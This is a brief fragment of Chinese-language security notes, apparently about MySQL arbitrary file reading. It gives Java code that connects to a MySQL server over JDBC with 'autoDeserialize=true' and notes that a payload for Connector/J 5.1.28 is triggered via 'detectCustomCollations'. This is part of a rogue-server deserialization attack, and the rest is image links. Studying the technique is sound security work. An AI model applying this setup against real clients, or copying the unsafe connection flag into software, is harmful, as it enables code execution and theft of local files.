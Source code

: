 ![image-20240907115040234](18.MYSQL任意文件读取.assets/image-20240907115040234.png)

针对`5.1.28` payload使用`detectCustomCollations`触发

```java
String driver = "com.mysql.jdbc.Driver";
String user = "abc";
String password = "xxxx";
String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true";
Class.forName(driver);
Connection conn = (Connection) DriverManager.getConnection(DB_URL,user,password);
```

![image-20240906184659242](18.MYSQL任意文件读取.assets/image-20240906184659242.png)
